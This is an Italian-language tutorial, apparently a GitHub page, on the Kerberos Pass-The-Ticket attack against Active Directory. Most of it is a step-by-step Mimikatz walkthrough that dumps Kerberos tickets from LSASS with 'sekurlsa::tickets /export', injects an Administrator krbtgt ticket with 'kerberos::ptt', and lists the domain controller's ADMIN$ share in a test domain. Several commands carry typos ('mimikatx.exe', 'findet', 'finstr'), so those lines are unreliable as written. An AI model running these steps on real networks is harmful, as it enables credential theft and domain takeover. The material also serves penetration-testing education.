 # Pass-The-Ticket (PTT) Attack

Un attacco di tipo **Pass-The-Ticket** consiste nel rubare, ad un utente correttamente autenticato all'interno del sistema, il TGT (Ticket Granting Ticket) di Kerberos così da ottenere l'accesso ad un altro computer.

Nei sistemi Active Directory, il TGT fornisce una prova sull'autenticità dell'utente che sta effettuando una determinata richiesta.\
I Domain Controller ricevono la richiesta di accesso ad una risorsa e per permetterlo validano il TGT dell'utente richiedente.

Tramite tool come **Mimikatz** o **Rubeus**, un attaccante può ricavare questi ticket in quanto sono salvati all'interno del LSASS (Local Security Authority Subsystem) ed inviarli al TGS di Kerberos (Ticket Granting Service) per ottenere l'accesso a qualsiasi altra risorsa all'interno della rete.

**Note:** Questa tecnica è utilizzabile solo dopo che si è riusciti ad autenticarsi all'interno di una macchina tramite un precedente furto di credenziali valide (es. Phishing / Social Engineering).

## Pass-The-Ticket w\Mimikatz

<p align="center">
  <img src="https://ifconfig.dk/wp-content/uploads/2015/06/logo.png" />
</p>


I comandi che seguono effettueranno l'esportazione dei ticket di Kerberos all'interno della directory in cui `mimikatz.exe` è stato eseguito.\
I file che ci interessano sono quelli con estensione `.kirbi`.\
Poniamo molta attenzione ai ticket `krbtgt` in quanto permettono l'accesso a numerosi servizi.\
Un account KRBTGT è un account di Active Directory predefinito utilizzato dal KDC (Key Distribuition Center). Viene creato automaticamente durante la creazione di un nuovo dominio Active Directory.

**Note:** I ticket KRBTGT sono in cache all'interno della macchina solo se l'amministratore ha effettuato l'accesso precedentemente.

Andiamo ad eseguire `mimikatz`
```
> mimikatx.exe
```

Controlliamo se abbiamo i permessi necessari per poter continuare\
```
# privilege::debug
```
Se l'output è `Privilege '20' OK` allora possiamo proseguire.

Andiamo ad estrarre le password dal LSASS della macchina
```
# sekurlsa::tickets /export
```

Usciamo e verifichiamo di aver correttamente estratto i ticket
```
# exit
> dir | findet "Administrator" | findstr "krbtgt"

[...]
[0;1d0bb]-2-0-40e10000-Administrator@krbtgt-HACKED.TESTLAB.kirbi
[0;1d0bb]-2-1-60a10000-Administrator@krbtgt-HACKED.TESTLAB.kirbi
[0;47d2a]-2-0-40e10000-Administrator@krbtgt-HACKED.TESTLAB.kirbi
[...]
```

Possiamo ora riutilizzarne uno per impersonificare il Domain Admin

```
> mimikatz.exe
# privilege::debug
# kerberos::ptt [0;1d0bb]-2-0-40e10000-Administrator@krbtgt-HACKED.TESTLAB.kirbi

[...]
File: '[0;1d0bb]-2-0-40e10000-Administrator@krbtgt-HACKED.TESTLAB.kirbi': OK
[...]

# exit
```

Verifichiamo se all'interno della cache è presente il ticket
```
> klist | finstr "Cached"

Cached Tickets: (1)
```

Andiamo ora a verificare l'hostname del Domain Controller
```
> nltest /dc:HACKED.TESTLAB

[...]
win2021dc.HACKED.TESTLAB [PDC] [DS] Default-Site: Default-Site-Title
[...]
```

Digitiamo il seguente comando
```
> dir \\win2021dc.hacked.testlab\admin$
```

E abbiamo così accesso alla directory `ADMIN$`.
